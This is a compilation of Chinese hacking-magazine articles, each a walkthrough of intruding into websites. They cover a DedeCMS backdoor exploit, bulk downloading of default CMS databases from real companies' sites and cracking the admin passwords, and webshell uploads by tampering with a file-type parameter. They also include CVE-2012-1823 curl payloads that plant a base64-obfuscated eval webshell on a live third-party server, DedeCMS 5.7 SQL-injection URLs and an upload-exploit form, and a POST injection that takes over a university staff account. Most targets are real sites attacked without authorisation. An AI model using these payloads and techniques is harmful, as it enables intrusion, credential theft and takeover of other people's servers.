回车后显示如图9，提示“Congratulations,target exist this bug.shell:http://192.168.197.130/dede/plus/dst.php,pass:cmd.”，另外在DedeCMS的子目录plus下又生成了shell文件`dst.php`。用lanker一句话PHP后门客户端3.0连接`http://192.168.197.130/dede7/plus/dst.php`，又获得了shell，如图10，说明`exp3.php`可用。


上面验证了再次修改后的exp在DedeCMS存在被植入后门代码的时候工作正常，可以拿到shell，下面来验证再次修改后的exp在DedeCMS没有被植入后门代码时候的工作状态。打开DedeCMS安装目录下的文件`shopcar.class.php`，把后门代码“`@eval(file_get_contents('php://input'));`”注释掉（图11），保存对文件`shopcar.class.php`的修改，删除刚才生成的shell文件`dst.php`，在命令提示符下输入命令：

`php exp3.php 192.168.197.130 /dede7/`

回车后程序显示如图12，提示“Sorry,target may not exist this bug.”说明目标DedeCMS没有被植入后门代码（后门代码被我注释掉了，跟没有的效果一样）。


再次修改后的exp终于比较完善了。

最后特别说明：我的两个修改版exp都是在舞林给出的exp的基础上修改而来（http://forum.cnsec.org/thread-82493-1-1.html）！使自定义目标网站和目录更方便，另外加入了判断目标DedeCMS是否被植入了本文介绍的后门的功能。

受影响程序：被植入了本文介绍的后门代码的。为了方便大家本机测试exp，我把从官方下载的被植入了后门代码的“DedeCMS-V5.7-GBK-SP1.tar”打包给大家了。

PS：代码写得太烂，英语没学过几个单词，让大家见笑了，发现程序的bug欢迎提醒我。另外，写这个代码出于学习PHP的目的，如果有人用代码造成任何后果与本人无关。

（文中涉及的相关代码本期光盘已收录）


总会碰到有人问“黑一个网站需要多长时间？”、“怎样去黑站？”之类的不大不小的问题，一般而言，这个过程是比较烦琐的，可能涉及到检测注入点、破解MD5密码、扫描开放的端口和后台登录地址等操作（如果想拿WebShell的话还需要上传网马）。不过凡事也不都是绝对的，有的网站可以在瞬间就被拿下，尤其是那些使用统一模板的网站，当模板系统出现问题时往往会引发连锁反应。小菜在此与大家共享一个因为默认设置懒得修改而导致数据库被下载，从而进入网站后台管理的小案例，菜鸟留步，老鸟飘过哈。

参加此次友情出演的是“汇成企业建站CMS系统”，其默认的版权信息是“版权所有@2003-2020汇成企业建站CMS系统”（一般都在首页的最下方），我们可以直接以这个版权信息作为关键字来进行Google或百度。找到使用该CMS系统的网站之后，就可以来构造URL来尝试下载它的数据库了——这也是汇成此次“上镜”的最大亮点：默认的数据库可以下载，是Databases目录下的huicheng.mdb，也算是一个小规模的批量“脱库门”事件了。

先来看第一个目标网站吧——http://www.wxxxxxxw.com/（广州市某广告设计有限公司），首页下方果然有“版权所有@2003-2020汇成企业建站CMS系统”字样，直接在域名之后添加“/Databases/huicheng.mdb”，一回车，立刻出现了数据库下载的提示（如图1）。接着使用明小子的“数据库管理”打开它，找到Admin表，管理员的账号和MD5密码出来了：admin/a972a7410af086a5（如图2）。直接点击首页下方的“管理入口”访问http://www.wxxxxxxw.com/admin/login.asp，出现后台登录界面，将账号admin和破解的MD5密码【zzhzfh1012】输入后点击“进入系统”按钮，成功进入了网站后台（如图3）。


既然是一套CMS系统出了问题，中招的就不是一个两个网站了，接着再来测试几个目标，操作方法与上面的完全相同。

第二个目标：http://www.gxxxxxxxi.com/（广州某电缆有限公司），默认数据库下载，打开查看管理员账号信息（gzfengtai/5376a0df57b90ff9【破解结果竟然是：hackerxx】），点击“管理进入”进行登录（/admin/login.asp），成功进入后台管理（如图4）。


图4


图5


图3

第三个目标：http://www.nxxk.cn/（南京某维修网），默认数据库下载，打开查看管理员账号信息（admin/83d26a727afa7339【破解结果是：afu999】），点击“管理进入”进行登录（/admin/login.asp），成功进入后台管理（如图5）。

第四个目标：http://www.cxxxxxxa.cn/（北京某环保技术有限公司），默认数据库下载，打开查看管理员账号信息（admin/7a57a5a743894a0e【破解结果是：admin】），直接在网站域名后添加“/admin/login.asp”访问其默认的登录页面（没有“管理进入”链接），成功进入后台管理（如图6）。

不用再继续了，四个网站已经足以说明问题了——都是“默认”惹的祸。

- 【默认的版权信息：版权所有@2003-2020汇成企业建站CMS系统】
  - 危害：被Google或百度收入搜索数据库中，从而被人盯上；
  - 对策：修改或直接删除这样一些暴露模板的敏感信息。
- 【默认的数据库地址和名称：/Databases/huicheng.mdb】
  - 危害：被构造的“域名+/Databases/huicheng.mdb”URL直接下载包含管理员账号和MD5密码信息；
  - 对策：修改数据库的路径和名称、采用防下载措施（比如名称前多加几个特殊字符）、设置复杂度极高的密码。
- 【默认的管理入口链接和后台地址：“管理进入/管理入口”、/admin/login.asp】
  - 危害：给别人尝试登录提供了最直接的方便；
  - 对策：删除首页下方的“管理进入”链接、修改后台登录地址。

其实，这次“汇成企业建站CMS系统”的“脱库门”根源还不止提到的这三个“默认”，它还存在着注入漏洞，确切地说是Cookie注入漏洞。以第三个目标网站为例吧，找到一个貌似注入点的链接http://www.nxxk.cn/ProductShow.asp?ID=182，将它放入明小子中跑一下，结果直接就会被提示“检测失败，该URL不可以进行注入！”（如图7）。果真不可以注入吗？测试一下，答案马上就见分晓。

在360浏览器地址栏中该链接的最后添加英文的半角引号，回车访问一下，结果出现“传参错误！”的提示（如图8），像“and、update、insert”之类的探测注入信息的特殊字眼儿都被记录在该CMS系统的“防注”黑名单中。不过，像这样一些唬人的幌子是吓不倒我们的：先打开“注入中转生成器”（寂寞的刺猬）生成jmCook.asp文件（如图9）；然后，在本地架起超级小旋风AspWebServer，访问一下http://localhost:8001/jmCook.asp?jmdcw=182，看是否正常（如图10）；最后，再用明小子检测，这下提示“恭喜，该URL可以注入！”，一会儿的工夫我们就得到了管理员账号和MD5密码；“username内容:admin，password内容:83d26a727afa7339”（如图11），与之前下载到的数据库中的账号与MD5密码是吻合的。


图6


现在，让我们再回到开头那个关于“黑站”的话题。看，如果有了这样的“默认”连锁脱库反应，相信技术再菜的小鸟也会很快进入到一些网站的后台，“黑站”是不是变得易如反掌了呢？不过，个人依然是非常诚恳地建议大家还是以学技术为主导，不要去试探法律的底线。

## 一枚shell的诞生

无余

站点的首页如图1所示。估计是一个公司两个部门？搞不懂，我们也不用管那些东西。我们先用NBSI扫一下后台，这东西比较方便直观，结果如图2所示；那么，神奇所有ASPX都存在？其实一看就知道有问题了，随意访问一个aspx，比如admin.aspx，返回的信息是“Server Error in '/' Application.”之类的，其实没什么用，本质就是不返回详细的错误信息给你罢了。进去看过之后明显也发现这个站主要是ASP的，所以没必要想那么多，但是我们还是可以推断它有点可能支持ASP.NET，比如以后提权可能可以用到ASP.NET的马。


图3

到这我们先冷静下，因为还没看过HTML的源代码。打开后台页面的源代码，看到下面一段代码（在后台登录页面查看源代码）：

```html
<script type="text/javascript" language="javascript" src="/common/script/VDCS.js" charset="utf-8"></script>
```


图1


图2

先进去随意开个网页，比如http://xxx/news/view.asp?id=139，经典的几个测试注入的方法，添加`'`、`and 1=1`之类的，但是不是跳出窗口提示“数据中包含非法字符！”，就是直接跳转到新闻的列表去了，感觉注入这一块估计搞不定了，另寻出路。

跑到后台http://xxx/admin/login.asp去围观下，后台的界面很简单，如图3所示。

管理员用户处输入了单引号，结果如我所想，直接显示出上面说到的包含非法字符的提示，然后测试了下`--`之类的注释，虽然可以用但是由于没办法闭合单引号，最后就作罢，放弃了直接从后台登录的尝试。

也就是引入了VDCS.js这个文件，到IE的临时文件夹下查找（IE临时文件夹在Internet选项的历史记录的设置里的“查看文件”中可以直接访问，如图4所示）。


图4

找到VDCS.js，打开看看，突然之间发现一段比较重要的代码，如下：

```javascript
dcs_config_data['dir']
dcs_config_data['url']
dcs_config_data['dir_common']
"common/"
dcs_config_data['dir_common_smiley']
"images/smiley/"
```

```javascript
dcs.config._data["dir.common.script"] = "common/script/";
dcs.config._data["dir.common.editor"] = "common/script/editor/";
dcs.config._data["dir.account"] = "account/";
dcs.config._data["dir.passport"] = "passport/";
dcs.config._data["dir.images"] = "images/";
dcs.config._data["dir.upload"] = "upload/";
dcs.config._data["dir.xml"] = "xml/";
dcs.config._data["dir.acout"] = "acout/";
dcs.config._data["dir.support"] = "support/";
dcs.config._data["dir.skin.base"] = "skin/";
dcs.config._data["dir.skin"] = "skin/default/";
```

试试其它文件夹。扫描http://xxx.com/passport，突然直接发现下面有一个login.asp，很好，进入之，如图5所示，这是一个很重要的页面，可以注册会员！按照它的提示进入然后注册好了之后，悲剧来了，各种登录不了……各种页面访问不了，等了一下，可以访问几个页面，然后继续挂……如此循环。等得哥要撞墙了，终于，它让我进去了，如图5。


到处看了看，发现用户列表里面有一个用户lqy4918特别活跃，如图6所示，猜测应该是管理员之类的，但是一时也猜不出他的密码，作罢了。


继续看看，注意到有一个发布信息的链接，进去，发布交易，如图7所示。


很明显这些都是文件夹。随意访问一个，如http://xxx.com/common/script/，提示“Directory Listing Denied”，不允许列举文件夹，一般来说这样的提示都是表示这个文件夹存在！很好。其中有一个很关键的“common”文件夹，我们可以猜想一下上传文件的页面也是在这，构造一下：http://xxx.com/common/upload.asp，进入以后在浏览器显示“上传文件的参数不正确！”，看来是没办法直接利用的。又猜了一下比如up、upfiles之类的，没发现一个存在的，就作罢，找另外一条路。

对account这个文件夹很好奇。http://xxx.com/account/ 尝试访问了一下，顶，提示为：

> Microsoft VBScript 编译器错误 错误 '800a0409'  
> 未结束的字符串常量：  
> D:\网站\ZHENNING\ACCOUNT\INC\../../common/include/VOPS/FunctionSkin.asp，行 314

物理路径都出来了，其实这个页面就是用户中心……狂出错的地方，虽然爆出路径很不错……但是现在也用不上，也没办法猜出数据库，没有`%00`之类的漏洞，继续想想其它办法。

到谷歌搜索了一下，似乎没收录太多这个网站相关的东西，作罢。

很好，但是在尝试好几次之后，发现不存在IIS的文件名解析漏洞，也没其他很明显的漏洞，还是限制着只能传图片，但是上传图片的链接如下：

```text
http://xxx.com/common/upload.asp ...
me=&thumbinput=
```

## 一个人的战争

有这个就可以了，从浏览器直接进入，有一个浏览和一个上传的按钮，和刚才的界面差不多。filetype=pic 直接修改为 filetype=asp，点击上传一个一句话的 ASP 文件；但是悲剧来了，很神奇地提示说“文件格式只能 asp”，如图8所示。神奇的网站，既然 ASP 不行，那我们来 cer，修改文件类型为 cer，选择我们一句话点击上传，哦 yeah，直接成功，如图9所示。把鼠标放到 .cer 上就可以把链接复制出来，链接形式为 http://xxx.com/upload/article/201107060054253d.cer。丢到菜刀里面，连接没问题，如图10所示。上传大马，依旧无问题。上传 CMD，执行 ipconfig，如图11所示。剩下的爱干嘛干嘛了，所以就不继续了。

这个站点确实比较乱来，各种神奇的问题。尤其是文件类型居然是传入一个参数来指定的，这不是傻子的行为吗？而且它本来就有判断后缀的功能，比如文件类型为 PIC 的时候就只能上传 PNG 之类的图像文件，为何还要加一个 filetype 的参数？恶搞了啊。

其它东西的话，这个站点还有 Serv-U 的 6.4 版本，可以直接提权，已开 3389，下去的估计难度就不是太高了，各位大牛肯定比我这菜更熟悉。

## CVE-2012-1823 的菜鸟级体验

2012年5月3日，国外牛人公布了一个超重量级的 PHP CGI 远程任意代码执行漏洞（PHP-CGI RCE），地址为 http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/，该漏洞的 CVE 编号为 CVE-2012-1823。2012年5月4日，国内著名安全研究者 GaRY 在 WooYun（白帽子技术社区）发表了一篇名为“CVE-2012-1823（PHP-CGI RCE）的 PoC 及技术挑战”的文章（http://zone.wooyun.org/content/151），在文章中他给出了 CVE-2012-1823 的一个 PoC，给出了漏洞利用方法和漏洞利用代码。

> 小知识：  
> CVE 的英文全称是 “Common Vulnerabilities & Exposures”，公共漏洞和暴露。CVE 就好像是一个字典表，为广泛认同的信息安全漏洞或者已经暴露出来的弱点给出一个公共的名称。使用一个共同的名字，可以帮助用户在各自独立的各种漏洞数据库和漏洞评估工具中共享数据，虽然这些工具很难整合在一起。这样就使得 CVE 成为了安全信息共享的“关键字”。如果在一个漏洞报告中指明的一个漏洞有 CVE 名称，你就可以快速地在任何其它 CVE 兼容的数据库中找到相应修补的信息，解决安全问题。

PHP 有好几种运行模式，其中包括 CGI、FastCGI 模式。当 PHP 以 CGI 模式运行时，存在一个远程代码执行漏洞。据 360 网站安全工程师介绍，该漏洞是用户将 HTTP 请求参数提交至 Apache 服务器，通过 mod_cgi 模块交给后端的 php-cgi 处理，但在执行过程中部分字符没有得到处理，比如空格、等号（=）、减号（-）等。利用这些字符，攻击者可以向后端的 php-cgi 解析程序提交恶意数据，php-cgi 会将这段“数据”当做 php 参数直接执行。利用漏洞可以轻易获得 shell。虽然利用 CGI 模式运行 PHP 的远没有以 FastCGI 模式运行 PHP 的多，但鉴于使用 PHP 的网站的庞大数量，还是有很多网站会受到这个漏洞的影响的。

#### 一、本地搭建漏洞测试环境失败

漏洞利用方法别人公布了，小菜我就想在本地搭建个漏洞测试环境来测试和验证下这个漏洞，但却失败了。我用了大半天的时间，没找到配置 PHP 以 CGI 模式运行的方法，网上找到的都是配置 PHP 以 FastCGI 模式运行的方法。没有办法，看来只能去网上找存在这个漏洞的测试目标了。

#### 二、漏洞利用过程

在网上找了不长时间，就找到了一个存在这个漏洞的网站。在“CVE-2012-1823（PHP-CGI RCE）的 PoC 及技术挑战”一文中给出的一个检验是否存在这个漏洞的方法是在 php 文件后面加 `?-s`，如果显示了 php 文件的源代码就说明存在这个漏洞。比如一个 php 文件的 URL 地址为 http://www.xxx.com/xxx.php，那么用网页浏览器访问 http://www.xxx.com/xxx.php?-s，如果显示了文件 xxx.php 的源代码就说明存在这个漏洞；如果页面显示的和访问 http://www.xxx.com/xxx.php 时无变化，说明不存在这个漏洞。

我找到的存在这个漏洞的一个网站为 http://xxxclub.com/（为了不泄露具体网站地址，我用 xxx 替换了网站域名中的一部分），通过扫描器获得网站所在服务器信息为：Apache/2.0.52 (Red Hat)。网站存在一个文件 http://xxxclub.com/regform.php，访问 http://xxxclub.com/regform.php?-s，显示了文件 regform.php 的源代码，如图1。图2是找到的另一个存在这个漏洞的网站用 -s 显示文件源代码的截图。

这个漏洞可以远程执行代码，GaRY 在“CVE-2012-1823（PHP-CGI RCE）的 PoC 及技术挑战”一文中给出的两个利用代码为：

- 1. 本地包含直接执行代码：  
  `curl -H "USER-AGENT: <?system('id');die();?>" http://target.com/test.php?-dauto_prepend_file%3d/proc/self/environ+-n`
- 2. 远程包含执行代码：  
  `curl "http://target.com/test.php?-dallow_url_include%3don -dauto_prepend_file%3dhttp%3a%2f%2fevil.com%2fevil.txt"`

下面我参考上面的方法来照葫芦画瓢利用下。用到的工具是 curl，我的机子已经安装了 curl，并且把 curl.exe 所在的目录加进了系统的环境变量中。打开命令提示符，切换到 C 盘根目录下（为了有更长的空间输入命令，大家实际测试下就懂的）。输入命令  
`curl -H "USER-AGENT: <?system('id');die();?>" http://xxxclub.com/regform.php?-dauto_prepend_file%3d/proc/self/environ+-n`，  
回车，居然显示“curl: (7) couldn't connect to host”，可能是网络不稳定，再运行一次命令，这次 id 命令成功被执行了，如图3。

至此我获得了一个激动人心的信息：利用这个漏洞可以直接执行 php 代码！因为上面命令中的 `<?system('id');die();?>` 就是 php 代码，它被执行了。考虑通过执行 php 代码来获得一个 shell。输入命令  
`curl -H "USER-AGENT: <?system('pwd');die();?>" http://xxxclub.com/regform.php?-dauto_prepend_file%3d/proc/self/environ+-n`，  
通过执行 pwd 命令获得了文件 regform.php 所在的物理目录 /www/users/xxxclub.com，也就是存在这个漏洞的网站的物理路径，如图4。

本来想得到网站的物理路径后写一个 shell 文件到网站目录下，但再一想，我糊涂了，有在当前目录下生成 shell 文件的 php 代码，根本用不到知道网站的物理路径！代码类似为：

```php
<?fputs(fopen("x.php","w"),"<?php @eval($_POST[cmd]);?>")?>
```

代码的作用是在当前目录下生成 php 一句话木马文件 x.php，一句话木马的连接密码为 cmd。因为漏洞利用代码中 php 代码在 `""` 中，把生成 php 一句话木马的 php 代码用 base64 加密下，加密后的代码为：

```php
fputs(fopen(base64_decode("eHgucGhw"),"w"),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW2NtZF0pOz8+MQ=="));
```

生成的 php 一句话木马文件名为 xx.php（为了避免加密后面的代码最后出现等号，改为了 xx.php。同样为了避免出现等号，生成的文件内容为 `<?php @eval($_POST[cmd]);?>1`）。

执行命令  
`curl -H "USER-AGENT: <?php ... ?>" http://xxxclub.com/regform.php?-dauto_prepend_file%3d/proc/self/environ+-n`，  
显示如图5；访问 `http://xxxclub.com/xx.php` 显示了一个 1，如图6，看来文件生成了。

用 lanker 一句话 PHP 后门客户端 3.0 连接 `http://xxxclub.com/xx.php`，获得了 shell，如图7。通过 shell 的“服务器基本信息”功能获得了存在漏洞的网站所在的服务器上安装的 PHP 的版本为 5.2.4，PHP 运行方式为 CGI，如图8。

当然，你也可以通过 GaRY 给出的远程包含执行代码：`curl http://target.com/test.php?-dallow_url_include%3dOn+-dauto_prepend_file%3dhttp%3a%2f%2fwww.evil.com%2fevil.txt`，通过远程文件包含获得 shell，但我没有自己的 Web 空间，没法上传受包含的 shell 文件，用别人的又不大放心，就不用这个方法了！反正用第一个方法也能获得 shell，哈哈。

#### 三、漏洞的修补

PHP 官方在2012年5月3日发布了最新版的 PHP 5.4.2，并且对稍早版本的 PHP 5.3.12 等也在同日进行了更新，修补了这个漏洞；还在官方网站首页显著位置显示了这个漏洞的信息。PHP 官方关于 CVE-2012-1823 的专题地址为 `http://www.php.net/archive/2012.php#id2012-05-06-1`，需要的可以去查看。

下载并安装官方更新后的 PHP 就可以修补这个漏洞。

本文只是小菜我对 CVE-2012-1823 的漏洞利用笔记，用的都是大牛公布的方法，我只是写了个漏洞利用过程，高手和大牛勿笑。

## DedeCMS 5.7 最新注入和上传漏洞

txcbg

上一期杂志刚给大家介绍了 DedeCMS 被植入后门的漏洞，过了一个月多一点，DedeCMS 的最新版本 DedeCMS 5.7 又被人爆出两个高危漏洞：注入漏洞和上传漏洞。站在程序安全的角度禁不住要问：“DedeCMS，你的安全肿么了？”

2012年4月28日，在微博上看到有朋友转发了一个名为“dedecms5.7最新注入和上传漏洞”的漏洞，顺着微博给出的链接点过去（http://www.sa666.com/thread-25247-1-1.html），发现漏洞的发布时间是4月26号，没有找到漏洞公布者的名字。说是 DedeCMS 的最新版本 DedeCMS 5.7 存在注入漏洞和上传漏洞。马上去 DedeCMS 官方网站下载了最新版本的 DedeCMS 5.7，以备本地测试。

DedeCMS 作为国内最著名的 PHP 网站内容管理系统之一，使用量非常大，出高危漏洞，而且是两个，意味着什么，大家都懂得。小菜我反正看到了 webshell，哈哈。经过本地测试，两个漏洞都有很大可能获得 webshell。下面把这两个漏洞介绍给大家。

#### 一、本地搭建漏洞测试环境

为了测试和验证这两个公布的漏洞并避免不必要的麻烦，我在本地的虚拟机中安装了从 DedeCMS 官方网站下载的最新版本的 DedeCMS 5.7 的 GBK 版本——DedeCMS-V5.7-GBK-SP1.tar.gz。虚拟机中的操作系统为 Microsoft(R) Windows(R) Server 2003, Enterprise Edition 5.2.3790 Service Pack 2 Build 3790，PHP 环境用的是 AppServ。安装好的 DedeCMS 5.7 在虚拟机中的访问地址为 http://127.0.0.1/dede57/，首页如图1。

越来越会赚钱了，默认安装好的 DedeCMS V5.7 GBK SP1 带了不少点击广告。

#### 二、注入漏洞

先来看注入漏洞。http://www.sa666.com/thread-25247-1-1.html 没有给出注入漏洞的分析，但通过给出的漏洞利用过程和注入语句知道出现注入漏洞的是 member 子目录下的文件 ajax_membergroup.php。直接看该处给出的注入漏洞利用过程：

- 1. 找到目标  
通过搜索“Powered by DedeCMSV57_GBK 2004-2011 DesDev Inc.”等可以找到可能存在这个注入漏洞的目标。由于我是在虚拟机中本地测试，目标不用找了，就是 http://127.0.0.1/dede57/。
- 2. 获得 DedeCMS 5.7 具体版本更新日期  
同一个 DedeCMS 5.7，却有几个不同更新日期的版本。截止作者刚开始写这篇稿子时，官方下载的最新版 DedeCMS 5.7 的更新日期为 20111227。我还发现了一个更新日期为 20110325 的。经过测试，更新日期为 20111227 的 DedeCMS 5.7 自然存在注入和上传漏洞，更新日期为 20110325 的注入漏洞因为某个原因没测试，上传漏洞测试成功。获得程序更新日期的一个方法是访问程序 `/data/admin/` 子目录下的文件 ver.txt，比如我访问虚拟机中测试程序的 ver.txt，访问地址为 http://127.0.0.1/dede57/data/admin/ver.txt，显示更新日期为 20111227，如图2。
- 3. 确认漏洞是否存在  

`/member/ajax_membergroup.php?action=post&membergroup=1`

为验证找到的目标是否存在注入漏洞，访问上述页面（前面加站点的 DedeCMS 5.7 访问地址）。在我的虚拟机中访问 http://127.0.0.1/dede57/member/ajax_membergroup.php?action=post&membergroup=1，如果页面显示正常并如图3，说明存在注入漏洞。

- 4. 爆管理员用户名和密码

确认了程序存在注入漏洞之后，来到激动人心的爆 DedeCMS 5.7 管理员用户名和密码阶段。DedeCMS 5.7 默认情况下存放管理员用户名和密码的表名为 dede_admin，对应的字段名为 userid 和 pwd。爆管理员用户名的语句为：

`/member/ajax_membergroup.php?action=post&membergroup=@`" Union select userid from `%23@__admin` where 1 or id=@`"`

特别注意：符号“`”是键盘上数字键 1 左边那个符号，下同。起初我把它换成了 `'`，结果不能用，不能换。在虚拟机中用网页浏览器访问  
http://127.0.0.1/dede57/member/ajax_membergroup.php?action=post&membergroup=@`" Union select userid from `%23@__admin` where 1 or id=@`"`，  
爆出了管理员用户名 admin，如图4。

爆管理员密码的语句为：

`/member/ajax_membergroup.php?action=post&membergroup=@`" Union select pwd from `%23@__admin` where 1 or id=@`"`

在安装了测试程序的虚拟机中用浏览器访问  
http://127.0.0.1/dede57/member/ajax_membergroup.php?action=post&membergroup=@`" Union select pwd from `%23@__admin` where 1 or id=@`"`，  
爆出了管理员密码 f297a57a5a743894a0e4，如图5。密码是加密的，共20位，去掉前三位和最后一位，得到管理员的16位 MD5 值 7a57a5a743894a0e，在在线破解网站破解出明文密码为 admin。

当然，你也可以通过一条语句爆出管理员的用户名和密码，语句为：

`/member/ajax_membergroup.php?action=post&membergroup=@`" Union select concat_ws(0x3A,userid,pwd) from `%23@__admin` where 1 or id=@`"`

在安装了测试程序的虚拟机中用网页浏览器访问  
http://127.0.0.1/dede57/member/ajax_membergroup.php?action=post&membergroup=@`" Union select concat_ws(0x3A,userid,pwd) from `%23@__admin` where 1 or id=@`"`，  
一次爆出了 DedeCMS 管理员的用户名和密码，如图6。用户名和密码用冒号隔开。

- 5. 进后台拿 shell

通过注入漏洞获得管理员的用户名，你运气比较好破解出了密码，运气再好点你找到了存在漏洞的 DedeCMS 后台地址，下面就可以进后台拿 shell 了。DedeCMS 的默认后台目录为 dede，我在虚拟机中搭建的测试 DedeCMS 系统后台目录没改，直接访问 http://127.0.0.1/dede57/dede/ 就来到了如图7的登录页面。一个登录页面就4个广告位，再次吐槽下。用前面通过注入漏洞得到的管理员用户名和密码顺利登录了如图8的 DedeCMS 后台。DedeCMS 5.7 与以前的版本相比有了不少的改变，在后台拿 shell 特别简单，因为自带的文件管理器插件没有过滤上传文件类型，导致可以直接上传 shell 文件。

## 二、个人的战争

得到shell后可以做什么大家都懂得，我就不说了。

在DedeCMS 5.7的后台点左侧的大菜单“核心”，然后点右边的“附件管理”下的“文件式管理器”，打开了如图9的页面，点“文件上传”来到了如图10的上传文件的地方。由于对上传文件类型没有过滤，直接选择PHP大马PhpSpy 2011的文件2011.php，点“上传文件”按钮后提示上传成功，并且显示了上传后的文件2011.php，如图11。直接点击图11中的2011.php，就打开了shell的地址 http://127.0.0.1/dede57/uploads/2011.php，获得了shell，如图12。

#### 三、上传漏洞

看完了注入漏洞再来看上传漏洞。其实这次爆出的DedeCMS 5.7的上传漏洞利用起来要比注入漏洞简单暴力得多，只要开放了会员注册功能，可以直接获得shell。在漏洞公布处 http://www.sa666.com/thread-25247-1-1.html 说，这个上传漏洞只要求网站开启新会员注册功能，并且无需通过邮件验证就可以上传shell了。漏洞公布者给出了一个上传漏洞的利用文件，代码为：

```html
<form action="http://www.xxx.com/plus/carbuyaction.php?dopost=memcick&coid=5&PORN8888&sl[code]=../dialog/select_soft_post.php" method="post" enctype="multipart/form-data" name="form1">
  file:<input name="upfile1" type="file" /><br>
  newname:<input name="newname1" type="text" value="a.php" />
  <button class="button2" type="submit">提交</button><br><br>
</form>
```

把上面代码保存为exp.html。其中代码中的http://www.xxx.com/代表存在漏洞的DedeCMS 5.7的地址。

下面来看具体利用过程，还是用我在虚拟机中搭建的存在漏洞的DedeCMS 5.7来做演示。先来注册一个会员。在DedeCMS 5.7的首页鼠标移动到如图13的会员处就可以看到注册新会员的“注册账号”按钮，点它，就会打开如图14的会员注册页面。这里我注册了一个用户名为hackerx-files、密码为123456的会员。注册成功后会自动登录，如图15。

修改exp.html中的提交地址为“http://127.0.0.1/dede57/plus/carbuyaction.php?dopost=memclickout&oid=S-PORN8888&rs[code]=../dialog/select_soft_post”，保存对文件exp.html的修改，然后用网页浏览器打开exp.html，显示如图16。

把PHP大马PhpSpy 2011的文件重命名为123.rar，点“浏览”按钮选择文件123.rar，然后点“提交”按钮，如果看到类似如图17的包含“Fatal error: Call to a member function getUserID() on a non-object in …”的错误提示就说明文件上传成功了。

下面来访问shell。shell在哪里呢？这里特别说明下：shell上传到了网站根目录下，记得是“网站根目录”下！比如存在漏洞的DedeCMS 5.7的安装目录为http://www.xxx.com/dedecms/目录下，则shell上传到了http://www.xxx.com/目录下。所以虚拟机中刚才上传的shell地址为http://127.0.0.1/a.php，访问之，获得了shell，如图18。注意下shell的文件名大小写，a.php第一个p是大写，尤其在Linux、Unix区分文件名大小写的操作系统中。

只要存在这个上传漏洞，还允许注册新会员，几乎就意味着得到了shell。

#### 四、漏洞的修补

在我写完这篇稿子后的2012年4月30日，DedeCMS官方发布了DedeCMS V5.7 SP1正式版，已经修补了这两个漏洞，并且给出了相应的补丁，补丁下载地址为 http://updatenew.dedecms.com/base-v57/package/patch-v57&v57sp1-20120430.zip 。想修补这两个漏洞的快去安装新程序或安装补丁吧。

#### 五、写在最后

最后啰嗦几句，希望大家测试这两个漏洞仅出于兴趣爱好，否则造成的任何后果与作者无关。强烈建议仅在本地测试。为了方便大家本地测试这两个漏洞，我把从官方下载的存在漏洞的DedeCMS V5.7 GBK SP1源代码“DedeCMS-V5.7-GBK-SP1(20111227 官方).tar.gz”和上传漏洞利用程序文件exp.html打包给大家了。

### 手工Post注入

克拉

黑X看了一年多，学习了不少。有了动学院网站的念头，可惜用穿山甲、NBSI等工具试了半天都没有发现突破口，旁注也以失败告终。本已打算放弃，却发现学院网站有个教授用的登录框，如图1，发现存在Post注入，便有了下文，哈哈。希望和我一样的小菜能通过手工注入了解注入的原理，而不甘心只做个toolboy。

#### 一、Post进登录检验

通过在 http://xxx.edu.cn/faculty_list/?lan=cn&faculty_type=0 的登录框中输入非法字符（如'aaa），使之报错，得到回显，如图2。

通过报错，我们发现学院网站是Access+ASP搭的，并且这就直接爆出了per_uname和per_pwd两个表名。虽说经过多次尝试没有爆出列名，问题不大。但我们可以根据此查询语句per_uname='' and per_pwd=''，构造出 per_uname='' or '1'='1' and per_pwd='xxxxxx'，即F or T or F and F，恒真。

于是直接登录，如图3、图4。

#### 二、修改密码

接着，重新登录，通过webscarab抓包（强力推荐该软件，觉得比Wireshark友好，OWASP出的精品，已收录），图5。

得到username为jackhu。

继续通过SQL注入，得到D:\xxx\GATEWAY\..\inc/enpasswd.asp中的加密算法十分简单：密文ascii码=明文ascii码+位数，例如11111加密后为2345。

于是反推，构造，如图6。

这样通过网站的修改密码功能，我成功地把jackhu的密码改成了111111。

#### 三、进入后台

用NBSI扫出网站后台地址，如图7，成功登录，之后的就不用我多说了。

这次注入让我明白做一个小黑要有足够的耐心，所谓山穷水尽疑无路，柳暗花明又一村，做人做事都是这个道理。

### 让渗透站在“复兴”之路

帅龙舒枫

在这个生如夏花的季节里，黑界里却默默地上演着几次不温不火的战役。先是微软爆出了3389溢出漏洞，后是修正药业被篡改首页。说来也巧，小菜那天上午随便也对修正检测，还没做完功课，晚上回来新闻就曝光，修正短暂地挂掉了。也许真的是巧合吧，我只能说，修正的网站管理很不上心，几个入口点连界面都不愿意改，就套用系统源码，路径还是默认的，商城也是用shopex的，不免被人渗透。

此次渗透的目标是一个高端的复兴论坛，首页显示了不少有关于复旦大学的信息，但是渗透过程中，发现管理的安全意识实在薄弱，有多个可以避免发生的错误，竟然还是很明显地犯错了。

#### 一、路看网络

我们先浏览下目标站点，简单看下网站信息。PHP站点，主要目录在web文件夹下面。如图1所示：

某高端论坛，为什么会说它是高端论坛呢？一会渗透过程中就知道了。好吧，拿出工具，对网站进行检测，获取相应信息。首先，使用wwwscan对它进行目录和相关页面扫描，结果如图2所示：

扫描结果显示，存在管理入口点“/admin/”，既然是200 OK，我们一会再来访问这个入口点。继续尝试检测站点服务器的操作系统，这里直接用常用的Nmap进行检测。检测结果保存在xxx.xml文档里，如图3、图4所示：

服务器的操作系统极大可能是Linux 2.6.*，而且89%的可能性是CentOS，scan的端口显示只有ftp和http。

尝试万能密码及弱口令登录系统后台，显示如图6、图7。

访问以下刚刚wwwscan扫描到的管理入口点，直接在IE浏览器输入目标地址：http://xxx.xxx.com/web/admin/ ，显示如图5的管理界面。

#### 二、小试牛刀

使用弱口令、万能密码都不能进入管理员后台系统。在首页里，随意打开一个新闻结尾为/news_detail.php?id=25437的链接，进行注入点检测，分别输入and 1=1、and 1=2。当输入1=2时，显示如图9所示：

既然直接显示SQL数据库的物理路径，很显然这里的id参数未进行过滤，直接造成注入。大部分管理可能习惯了要么不过滤参数，要么就是忘记防cookies注入。那么就请出haviSQL注入检测工具进行对注入点的进一步分析，显示如图10、图11：

找到数据库xxxese；接着点击tables搜索数据库的表，将近20几个表的数据就一一显示出来了，如图12所示。

点击其中一个名为member的表，点击工具栏上的get columns，获取该表的列数据，显示如图13。

